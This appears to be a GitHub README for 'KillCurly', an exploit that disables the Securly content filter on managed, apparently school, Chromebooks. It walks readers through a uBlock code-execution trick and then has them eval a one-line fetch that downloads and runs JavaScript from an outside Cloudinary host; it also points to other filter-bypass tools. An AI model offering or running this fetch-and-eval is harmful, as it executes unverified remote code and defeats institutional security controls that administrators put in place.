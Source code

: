 Note: You should NOT open an issue with @zek-c, he will get mad if you don't put something simple (as proven [here](https://github.com/zek-c/Securly-Kill-V111/issues/38)).

# KillCurly Working
@zek-c's KillCurly exploit, but working.

### Feel free to follow the instructions below:

From [3kh0](https://3kh0.github.io/ext-remover/)'s `ext-remover` thingy (in the case that uBlock isn't blocked as an installable extension), I found a way to make the KillCurly exploit work 🎉

Essentially, you would follow the instructions [here](https://3kh0.github.io/ext-remover/#ublock-run-run-code-on-pages).

Once you have that done, you would press `ctrl`**+**`alt`**+**`~` until you see the `Eval: ` alert. 

Then you would evaluate:

``` javascript
fetch('https://res.cloudinary.com/dxttxbdrd/raw/upload/v1693510756/kill_qn1hjn.js').then(r => r.text()).then(r => eval(r))
```

Since this is JavaScript evaluation only, you wouldn't put the `javascript:` like you would in a bookmarklet.

I recommend going to [Securly](https://www.securly.com) to do all of this because that's where the kill script is meant to work.

If this doesn't work, you would use Bypassi's INSECURLY exploit or Skiovox.

I hope you guys enjoy this 🫰
